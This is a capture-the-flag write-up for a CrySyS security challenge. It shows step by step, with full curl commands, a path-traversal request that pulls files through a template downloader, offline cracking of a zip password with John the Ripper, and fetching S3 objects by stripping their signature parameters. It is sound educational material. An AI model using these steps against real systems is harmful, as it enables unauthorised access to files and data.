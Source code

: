 # Instant Development Company

The source of https://instant-development-company.secchallenge.crysys.hu/ reveals a link to the /debug folder.

```
...
<body>
    <a href="/" class="menu-button" style="text-align: justify;">Main page</a>
    <a href="/review" class="menu-button" style="text-align: justify;">Leave feedback</a>
    <a href="/debug" class="menu-button" style="text-align: justify;"></a>
...
```

There are a couple of potential attack points in that page. One is a template file viewer. Let's try that on debug.html with curl:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=debug.html'
{% extends "base.html" %}
...
    <!-- [AUTOREMOVE] AN: I've created a backup of our contracts for archival purposes. It should be in a backup.zip file in the root directory. -->
    <!-- [AUTOREMOVE] AN: Unfortunately I kinda forgot the password, but I do remember that it only had numbers in it and it was 10 digits long. -->
...
```

Bingo. There has to be a backup.zip somewhere with a password of 10 digits. Let's try downloading the zip with the template downloader again:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=../backup.zip' > backup.zip
```
Now run John the ripper to get the password:
```shell
> john --incremental=digits --min-length=10 --max-length=10 hash.txt
```

Unzip the file
```shell
> unzip -P REDACTED backup.zip
```

We find a file containing a bunch of S3 download links in the form of:
```
...
https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
...
```

But we cannot download them:
```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Request has expired</Message><Expires>2021-10-13T20:41:40Z</Expires><ServerTime>2022-03-16T06:57:35Z</ServerTime><RequestId>7D3PB49BH510BXPD</RequestId><HostId>kpPQtioPMo0Tq+sY0b5wg5mlH+ZmJc/vwT7AAKwFrHSaxGLGt0cosQ1YwAqm2sAVfosziX8Tric=</HostId></Error>
```

Try removing the expires and signature part from the url:

```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000
...bunch of text...
```
We just need to download all files and filter for the flag.
